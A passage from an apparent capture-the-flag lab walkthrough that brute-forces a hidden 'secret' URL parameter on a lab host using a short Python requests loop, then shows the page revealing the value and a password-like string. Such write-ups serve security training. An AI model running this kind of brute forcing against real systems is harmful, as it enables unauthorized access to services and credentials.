 - OK, nice, the hidden parameter here is `secret` which is reflected in URL `http://10.10.131.131/th1s_1s_h1dd3n/?secret=`, we will have to brute force our way in, let's do it!

---

## ⚙️ Brute Force, Steganography and Shell Access

- So when it comes to brute forcing, there's few ways you can go around. Use Burp, make custom scripts, find tools or if you want to get consumed by madness do it manually.
  I wrote a sscript in Python since it is much faster than running Burp, but I also run Burp after it just to confirm if I got right result with my script. Script was 10230201x faster than Burp!

  ```
  nano brute.py

  import requests

  def main():
  	base_url = "http://10.10.131.131/th1s_1s_h1dd3n/?secret="
  
  	for i in range(100):
  		url = base_url + str(i)
  		response = requests.get(url)
  			
  		if "That is wrong! Get outta here!" not in response.text:
  			print(f"Found valid response with {i}")
  			print(response.text)
  			break
  					
  main()
  ```

  ```
  python3 brute.py 
  Found valid response with 73
  <html>
  <head>
    <title>Hidden Directory</title>
    <link href="stylesheet.css" rel="stylesheet" type="text/css">
  </head>
  <body>
    <div class="main">
  <h2>Welcome! I have been expecting you!</h2>
  <p>To obtain my identity you need to guess my secret! </p>
  <!-- It's between 0-99 but I don't think anyone will look here-->
  
  <p>Secret Entered: 73</p>
  
  <p>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B</p>
  
  </div>
  </body>
  </html>
  ```
